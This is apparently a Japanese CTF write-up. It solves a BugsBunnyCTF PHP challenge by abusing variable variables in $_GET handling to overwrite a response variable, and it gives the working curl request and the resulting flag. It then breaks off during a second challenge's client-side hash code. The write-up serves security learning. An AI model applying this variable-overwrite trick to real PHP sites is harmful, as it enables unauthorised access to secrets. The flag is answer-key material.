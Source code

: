 ## [Web 80] SimplePHP

以下のようなソースコードが与えられました。

```php
<?php

include "flag.php";

$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");

if ( !isset($_POST["flag"]) )
	die($_403);


foreach ($_GET as $key => $value)
	$$key = $$value;

foreach ($_POST as $key => $value)
	$$key = $value;


if ( $_POST["flag"] !== $flag )
	die($_403);


echo "This is your flag : ". $flag . "\n";
die($_200);

?>
```

`$_GET` と `$_POST` に対して `extract` のようなことをしています。が、`$_GET` の場合は `$$key = $$value` のように `key` だけでなく `value` まで可変変数としてしまっています。

そのため `index.php?_200=flag` にアクセスすることで `$_200` の内容を `$flag` と同じ内容にさせることができます。

`curl "http://34.253.165.46/SimplePhp/index.php?_200=flag" -d "flag=hoge"` を実行するとフラグが得られました。

```
Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}
```

## [Web 100] Web100

与えられた URL にアクセスすると、`Please enter your passowrd` とプロンプトが表示されました。

ソースを見てみると以下のような処理がありました。

```javascript
var generate = function(string) {

    function RT(lValue, iShiftBits) {
        return (lValue << iShiftBits) | (lValue >>> (32 - iShiftBits));
    }

...

    var temp = WordToHex(a) + WordToHex(b) + WordToHex(c) + WordToHex(d);

    return temp.toLowerCase();
}
```
